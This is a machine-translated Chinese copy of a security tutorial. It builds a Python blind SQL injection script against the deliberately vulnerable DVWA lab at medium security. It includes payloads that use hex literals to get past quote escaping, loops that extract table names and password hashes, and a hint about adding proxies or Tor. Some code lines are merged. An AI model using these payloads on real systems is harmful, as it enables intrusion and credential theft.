


# 打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 2 部分)— StackZero

> 原文：<https://infosecwriteups.com/burp-suite-no-thanks-blind-sqli-in-dvwa-with-python-part-2-stackzero-a5c0acf431dc?source=collection_archive---------2----------------------->


> 本文原载于[https://www . stack zero . net/blind-SQL-injection-dvwa-medium-python/](https://www.stackzero.net/blind-sql-injection-dvwa-medium-python/)

嗨黑客们！在用一个盲目的 SQL 注入攻击完成了低安全性 [DVWA](https://github.com/digininja/DVWA) 之后，是时候使用 Python 来尝试中等级别的安全性了！
我假设你已经在[阅读了之前的帖子，点击](/how-i-exploited-blind-sqli-without-using-any-tool-stackzero-396e831ecbdf)链接，这样我们就可以专注于新的概念。

如果你对 SQL 注入不熟悉，这里有一个我以前所有文章的列表，可以让你成为一个 SQLi 忍者！

# 带内 SQL 注入

*   [SQL 注入:您需要了解的内容](https://medium.com/codex/sql-injection-what-you-need-to-know-stackzero-abc80bc1ea5e)
*   [通过黑客攻击易受攻击的应用程序，在实践中学习 SQL 注入！](https://medium.com/bugbountywriteup/learn-sql-injection-in-practice-by-hacking-vulnerable-application-stackzero-ef7931c72aec)
*   [如何用 SQL 注入攻击进行黑客攻击！DVWA 低安全性](https://medium.com/bugbountywriteup/how-to-hack-with-sql-injection-attacks-dvwa-low-security-stackzero-9286d7d0dfd1)
*   [黑客用 SQL 注入攻击！DVWA 中等安全性](/hack-with-sql-injection-attacks-dvwa-medium-security-stackzero-d4af0a9a5f9)
*   [黑客用 SQL 注入攻击！DVWA 高安全性](/hack-with-sql-injection-attacks-dvwa-high-security-stackzero-713638840515)

# 盲人 SQL 注入

*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 1 部分)](/how-i-exploited-blind-sqli-without-using-any-tool-stackzero-396e831ecbdf)
*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 2 部分)](/burp-suite-no-thanks-blind-sqli-in-dvwa-with-python-part-2-stackzero-a5c0acf431dc)
*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 3 部分)](/burp-suite-no-thanks-blind-sqli-in-dvwa-with-python-part-3-stackzero-911545003f01)

因此，我们的起点将是我们用来利用低安全级别的 [DVWA](https://github.com/digininja/DVWA) 的 python 脚本，从这一点出发，我们将做一些小的更改来面对中等难度。

你应该已经知道我很懒，所以这次我不会再配置我自己的机器，但我将使用在 [TryHackMe](https://tryhackme.com/room/dvwa) 预配置的机器。

您可以在本文中找到配置步骤的简要说明:

但是现在让我们开始真正的挑战吧！

# 先决条件

您可能已经知道，我试图构建一个小库，让您只关注盲目的 SQL 注入攻击(忽略登录部分和 CSRF 令牌管理)，所以在遵循教程之前，请从 GitHub 存储库中获取“utils.py”文件(在[这个链接](https://github.com/StackZeroSec/dvwa/tree/main/blind_sqli)(如果您喜欢复制粘贴，也可以在最后找到完整的代码)。

之后，您应该安装以下库:

您可以在终端上键入以下命令:

```
pip install beautifulsoup4 requests
```

没有更多的事要做，你准备开始！

# 第 0 步:与低安全性 DVWA 的区别

如果你已经阅读了[上一篇文章](/how-i-exploited-blind-sqli-without-using-any-tool-stackzero-396e831ecbdf)，这可能是最重要的部分。

我们希望在将安全级别设置为*“中”*之后，使用 python 对 DVWA 进行盲 SQL 注入攻击。我们已经完成了大部分工作，所以我们可以只关注低安全性和中等安全性之间的差异。

只有两个主要的区别会使我们改变我们以前采取的方法。

从这篇文章中我们应该知道[Mysql _ real _ escape _ string](https://www.php.net/manual/en/function.mysql-real-escape-string.php)不足以阻止 SQL 注入攻击，不管它是什么类型。正如文档中所说:

***mysql _ real _ escape _ string()****调用 MySQL 的库函数 mysql_real_escape_string，其中将反斜杠前置到以下字符:* `*\x00*` *、* `*\n*` *、* `*\r*` *、* `*\*` *、* `*'*` *、* `*"*` *和* `*\x1a*` *。*

**那么如果我们可以使用 python 执行一个盲 SQL 注入攻击，而不使用 DVWA 中等安全上的那些字符呢？**

现在的问题是:

我们如何在盲 SQL 注入 python 脚本中使用字符串而不使用单引号/双引号？

MySQL 文档可以帮助我们理解十六进制文字[的概念](https://dev.mysql.com/doc/refman/8.0/en/hexadecimal-literals.html)，它可以让我们通过使用十六进制值插入一个字符串，而不用引号。

# 如何在 python 中将一个字符串转换成它的十六进制文字值？

在 python 中我们可以用非常简单的方式将一个字符串转换成它的[十六进制文字值](https://dev.mysql.com/doc/refman/8.0/en/hexadecimal-literals.html)，我们需要用 *encode* 对函数进行编码，然后用 *hex* 函数进行转换。

但是为了在查询中使用十六进制版本，我们需要在结果前面加上*“0x”*字符串。

因此，为了使一切更具可读性，让我们定义将转换 python 脚本中每个字符串的函数。

```
def get_hex_str(string):
    return f'0x{string.encode("utf-8").hex()}'
```

# 用 POST (HTTP)更改 GET (HTTP)方法

至此，我们已经解决了[MySQL _ real _ escape _ string](https://www.php.net/manual/en/function.mysql-real-escape-string.php)函数的问题。
但是如果以我们进入[低难度等级](/how-i-exploited-blind-sqli-without-using-any-tool-stackzero-396e831ecbdf)所用的 python 脚本为出发点，我们就不得不考虑要把 HTTP 方法改成 [POST](https://en.wikipedia.org/wiki/POST_(HTTP)) 。

由于我们之前所做的选择，我们可以通过修改 *get_query_result* 函数中的几行代码来实现目标。

让我们看看新功能:

```
def get_query_result(s, sqli_blind_url, query, *args):
    try:
        concrete_query = query.format(*args)
        data = {
            "id": concrete_query,
            "Submit": "Submit"
        }
        response = s.post(sqli_blind_url, data=data)
        parser = DVWASQLiResponseParser(response)
        return parser.check_presence("exist")
    except AttributeError as e:
        return False
```

不是比你想象的简单吗？

现在，我们可以一步一步地看到我们可以做的一些小改变，以使脚本工作，并利用我们的 [DVWA](https://github.com/digininja/DVWA) 机器中的盲 SQL 部分。

# 查询词典

我想对代码进行排序，让所有重要的工作一目了然，因此与之前的脚本不同，这一次我将所有有效负载分组到一个全局字典中。

```
queries = {
    "db_length": "1 AND LENGTH(DATABASE()) = {} #",
    "db_name": "1 AND SUBSTRING(DATABASE(), {}, 1) = {}",
    "n_tables": "1 AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema={})={} #",
    "tables": "1 AND SUBSTR((SELECT table_name from information_schema.tables WHERE table_schema={} {} LIMIT 1),{},1)={} #",
    "n_columns": "1 AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_name={})={} #",
    "columns": "1 AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name={} LIMIT {}, 1),{},1)={} #",
    "users": "1 AND SUBSTR((SELECT {} FROM {} LIMIT {}, 1),{},1)={} #",
    "pwd_len": "1 AND LENGTH((SELECT {} FROM {} WHERE {}={}))={} #",
    "pwd": "1 AND SUBSTR((SELECT {} FROM {} WHERE {}={} LIMIT 1), {}, 1)={} #"
}
```

# 步骤 1:获取数据库信息

在黑盒攻击的情况下，第一步是获取关于数据库的信息。在这种情况下，我会假设我们已经知道 MySQL 是目标 DBMS(我在以前的文章中通过使用 [MySQL Version 函数](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html#function_version)展示了如何知道这一点)。

用 python 对中等安全级别的 [DVWA](https://github.com/digininja/DVWA) 进行盲 SQL 注入攻击的想法与我们已经看到的并没有太大的不同。
我们必须使用长度函数，并通过与合理范围的值进行比较来测试它。
有效载荷将是(记住花括号是一个占位符，我们将在代码中替换它):

```
1 AND LENGTH(DATABASE()) = {} #
```

之后，我们知道了数据库名称的长度，我们可以测试所有子字符串，记住我们不能使用引号，所以值必须转换成十六进制值。

由于有了[子串](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_substring)函数，这个有效负载将让我们检索数据库的名称:

```
1 AND SUBSTRING(DATABASE(), {}, 1) = {}
```

我们已经看到了如何运行有效载荷并得到结果，但是一个回顾不会伤害我们！

```
query = queries["db_length"]
length = 0
for i in range(1,10):
    if get_query_result(s, sqli_blind_url, query, i):
        print(f"[+] The DB's name length is {i}")
        length = i
        breakquery = queries["db_name"]
dbname = []for i in range(1, length+1):
    for c in string.ascii_lowercase:
        if get_query_result(s, sqli_blind_url, query, i, get_hex_str(c)):
            dbname.append(c)
            break
dbname = "".join(dbname)
print(f'[+] Found a database with name: {dbname}')
```

# 步骤 2:获取表格信息

一个好的黑客将执行的下一步是检索表的信息，特别是，我们想知道:

*   数字
*   名称

获得数字与获得数据库名称的长度没有太大区别，这一次我们需要对它们进行计数，并将它们与一系列合理的数字进行比较(您可以对什么是“合理的”做出假设！)，对于我们的示例，我选择了 1 到 10 之间的范围。

为此，我们将查询*information _ schema . tables*元表，并使用 [COUNT](https://dev.mysql.com/doc/refman/8.0/en/aggregate-functions.html#function_count) 函数

这是产生的有效载荷:

```
1 AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema={})={} #
```

“WHERE”子句需要一个字符串，所以我们必须注意用它的十六进制值替换占位符，python 中是这样的:

```
query = queries["n_tables"]
n_tables = 0
for i in range(1, 10):
    if get_query_result(s, sqli_blind_url, query, get_hex_str(dbname), i):
        print(f"[+] It has {i} tables")
        n_tables = i
        break
```

现在我们知道了表的数量，下一步是列出它们，此时我们会遇到两个主要问题:

*   盲人 SQL 注入一次只能测试一个名字。
*   枚举许多表可能需要很多时间。

我们解决第一个问题的方法是在 WHERE 子句中附加一个不等于链，以排除我们已经找到的表(在下一段中，我们将看到另一种使用 LIMIT 子句的技术)。

我们将通过允许用户在找到正确的表时提前停止扫描来部分解决第二个问题。

这是代码:

```
query = queries["tables"]found_tables = [[] for _ in range(n_tables)]
completion = ""
for i in range(n_tables):        
    for j in range(1, 10):
        for c in string.ascii_lowercase:
            if get_query_result(s, sqli_blind_url, query, get_hex_str(dbname), completion, j, get_hex_str(c)):
                found_tables[i].append(c)
                break
    print("\t","".join(found_tables[i]))
    completion += f" AND table_name <> {get_hex_str(''.join(found_tables[i]))}"
```

# 步骤 3:获取表格信息

文章背后的想法是构建一个一体化的脚本，那么，脚本如何知道什么是目标表呢？

快速反应是:**不能！**

因此，不需要做任何事情，我们可以接受用户输入:

```
users_table = input("Type the tabname to attack: ")
```

之后，我们在 WHERE 子句中插入一个字符串(记住，您可以只插入它的十六进制值)并获得我们需要的信息:

*   列数
*   列的名称

有效负载与我们看到的枚举表的有效负载没有太大的不同。
在这种情况下，也可以通过使用[计数](https://dev.mysql.com/doc/refman/8.0/en/aggregate-functions.html#function_count)并将结果与一系列数字(本例中为 1-10)进行比较来获得列数。

这是将返回我们需要的信息的有效载荷:

```
1 AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_name={})={} #
```

这是将使用这个有效负载的代码！

```
query = queries["n_columns"]n_columns = 0
for i in range(1, 10):
    if get_query_result(s, sqli_blind_url, query, get_hex_str(users_table), i):
        print(f"[+] It has {i} columns")
        n_columns = i
        break
```

给定这些信息，我们可以通过使用这个有效负载来获得我们正在寻找的所有选项卡名称:

```
1 AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name={} LIMIT {}, 1),{},1)={} #
```

在本例中，我们列出了所有的表。
想法是一个接一个地获取表，这一次是通过使用 LIMIT 子句来完成的，该子句将 **row_count** 作为第一个参数，将 **index** 作为第二个参数。

代码对你来说并不陌生:

# 步骤 4:获取用户信息

现在我们想要获得用户名和密码，为此我们必须指出我们需要告诉脚本哪些列与这些字段相关。

同样在这种情况下，我们将询问用户目标列的名称:

```
users_column = input("Type the name of the column containing usernames: ")
passwords_column = input("Type the name of the column containing passwords: ")
```

给定这些输入，我们可以列出用户，即使在这种情况下，用户可以停止扫描。

细心的观察者会注意到，这次脚本不会计算用户数量。
但是我更喜欢使用一个合理的值，因为我知道我们会更快地停止扫描。

允许我们这样做的有效载荷如下:

```
1 AND SUBSTR((SELECT {} FROM {} LIMIT {}, 1),{},1)={} #
```

# 步骤 5:获取密码

最后，我们处于 python 脚本的末尾，该脚本将允许我们对具有中等安全级别的 DVWA 执行盲 SQL 注入攻击。

选择目标用户对于持续攻击至关重要，我们将再次询问用户:

```
username = input("Type the name of the target user: ")
```

现在我们有了完成攻击所需的所有信息，我们只是缺少两条信息，您可能会想到是哪条:

*   密码的长度
*   密码本身

获取密码长度的有效负载是:

```
1 AND LENGTH((SELECT {} FROM {} WHERE {}={}))={} #
```

正如我们之前所做的，我们可以使用以下 python 代码注入有效负载:

```
query = queries["pwd_len"]
pwd_length = 0
for i in range(100):

    if get_query_result(s, sqli_blind_url, query, passwords_column, users_table, users_column, get_hex_str(username), i ):
        pwd_length = i
        print(f"[+] The password length is: {i}")
```

脚本的最后一步是定义有效负载和运行它的代码。

```
1 AND SUBSTR((SELECT {} FROM {} WHERE {}={} LIMIT 1), {}, 1)={} #
```

这将由以下代码运行。

```
query = queries["pwd"]
password = []
for j in range(1, pwd_length+1):

    for c in string.ascii_letters+string.digits:

        if get_query_result(s, sqli_blind_url, query, passwords_column, users_table, users_column, get_hex_str(username), j, get_hex_str(c)):
            password.append(c)

            break
print("[+] Password is: ","".join(password))
```

python 脚本已经完成，现在运行它。

# 步骤 6:在中等安全级别的 DVWA 上运行盲 SQL 注入 Python 脚本。

将脚本保存在名为“main.py”的文件中，可以通过键入以下命令从命令行运行:

```
python main.py
```



密码显然是一个[哈希函数](https://en.wikipedia.org/wiki/Hash_function)的结果，很可能是 [MD5](https://en.wikipedia.org/wiki/MD5) 。

破解可以通过使用类似 [CrackStation](https://crackstation.net/) 的在线工具来完成。

所以，我们可以去[破解站](https://crackstation.net/)尝试破解它:



# 第 7 步:最终概述。

您可能想看完整的代码，所以下面是完整代码的概述:

# 结论

我希望你喜欢这篇文章，我真的很喜欢写它(尤其是编码部分)。
我知道有很多工具在这方面做得更好，并且可广泛配置，但这是最好的学习方式，而且在某些情况下，你可能会在职业生涯中被迫这样做。

除此之外，请记住，这个脚本可以修改工作线程，也许代理或 tor 网络，你可以用这些知识做很多事情！

感谢您的时间，感谢您的每一个反馈。如果你喜欢我的作品，请继续关注我的博客和社交网站！

*你可以通过下面的链接注册，每月只需 5 美元就可以获得所有的媒体报道*

[](https://medium.com/membership/@stackzero) [## 通过我的推荐链接加入 Medium-stack zero

### 我们的最新报道(以及数以千计的其他报道)一经发布，您就可以立即获得。成为会员后，您将获得所有权限…

medium.com](https://medium.com/membership/@stackzero) 

*原载于 2022 年 10 月 26 日 https://www.stackzero.net*[](https://www.stackzero.net/blind-sql-injection-dvwa-medium-security-with-python/)**。**

## *来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*